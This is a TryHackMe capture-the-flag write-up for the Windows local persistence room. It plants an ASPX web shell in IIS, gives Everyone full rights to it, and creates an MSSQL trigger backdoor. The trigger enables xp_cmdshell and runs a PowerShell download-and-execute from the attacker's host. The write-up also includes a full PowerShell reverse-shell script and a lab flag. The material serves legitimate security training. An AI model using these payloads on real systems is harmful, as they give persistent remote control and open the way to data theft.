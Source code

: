 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/06/2023

# Using Web Shells
1. Started this room's machine
2. `firefox <URL>`
```Bash
root@ip-10-10-32-42:~# firefox https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Firefox%20cmdaspx.net%20Github.png)

3. `sudo python -m http.server`
```Bash
root@ip-10-10-32-42:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
4. `(New-Object System.Net.WebClient).Downloadfile('http://<ATTACK MACHINE IP>:8000/<ASPX.NET WEB SHELL FILE1>','<ASPX.NET WEB SHELL FILE2>.exe')`
```PowerShell
PS C:\Users\Administrator> (New-Object System.Net.WebClient).Downloadfile('http://10.10.32.42:8000/cmdasp.aspx','shell.aspx')
```
5. `dir`
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/7/2023   9:00 PM          20216 shell.aspx
```
6. `icacls <ASPX,WEB SHELL FILE PATH> /grant Everyone:F`
```PowerShell
PS C:\Users\Administrator> icacls shell.aspx /grant Everyone:F
processed file: shell.aspx
Successfully processed 1 files; Failed processing 0 files
```
7. `move shell.aspx C:\inetpub\wwwroot\`
```PowerShell
PS C:\Users\Administrator>move shell.aspx C:\inetpub\wwwroot\
        1 file(s) moved.
```
8. `explorer.exe "http://<TARGET IP>/shell.aspx"`
```PowerShell
PS C:\Users\Administrator> explorer.exe http://10.10.219.169/shell.aspx
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/ASPX.NET%20Web%20Shell%20Open.png)

9. `C:\flags\flag16.exe`

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/ASPX.NET%20Web%20Shell%20Flag.png)

# Using MSSQL as a Backdoor
1. Started this room's machine
2. Search for **Microsoft SQL Server Management Studio 18** and launch it

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Search.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Launch%20pt2.png)

3. Launch and execute the following four queries:

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Launch%20pt.3.png)

```SQL
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%201.png)

```SQL
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%202.png)

```SQL
USE HRDB
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%203.png)

```SQL
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://<ATTACK MACHINE IP>:8000/<POWERSHELL SCRIPT>.ps1'')"';
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%204.png)

4. `mousepad <POWERSHELL SCRIPT>.ps1` and
```PowerShell
$client = New-Object System.Net.Sockets.TCPClient("<ATTACK MACHINE IP>",<PORT NUMBER>);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Creating%20evilscript.ps1.png)

5. `nc -lvnp <PORT NUMBER>`
```Bash
root@ip-10-10-32-42:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
6. `sudo python -m http.server`
```Bash
root@ip-10-10-32-42:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
7. `explorer.exe http://<TARGET IP>/`
```PowerShell
C:\Users\Administrator>explorer.exe "http://10.10.138.69/"
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Insert%20Data%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Insert%20Data%20pt2.png)

```Bash
root@ip-10-10-32-42:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.138.69 49758 received!
```

8. `C:\flags\flag17.exe`
```PowerShell
PS C:\Windows\system32> C:\flags\flag17.exe
THM{I_LIVE_IN_YOUR_DATABASE}
```


**TASK COMPLETED!**
